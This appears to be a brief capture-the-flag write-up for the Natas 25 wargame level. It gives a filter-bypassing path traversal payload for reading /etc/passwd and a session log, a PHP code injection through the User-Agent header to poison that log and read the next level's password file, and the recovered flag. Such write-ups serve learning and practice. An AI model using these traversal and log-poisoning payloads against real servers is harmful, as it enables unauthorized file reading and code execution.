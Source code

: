 # Trick

Pass url as argument to read files from server:

```
/?lang=....//....//....//....//....//etc/passwd
```

Look for some error in php logs:

```
/?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_<PHPSESSID>.log
```

Inject php code on header:
```
User-Agent: <?php global $__MSG; $__MSG=file_get_contents('/etc/natas_webpass/natas26'); ?>
```

# Flag

```
8A506rfIAXbKKk68yJeuTuRq4UfcK70k
```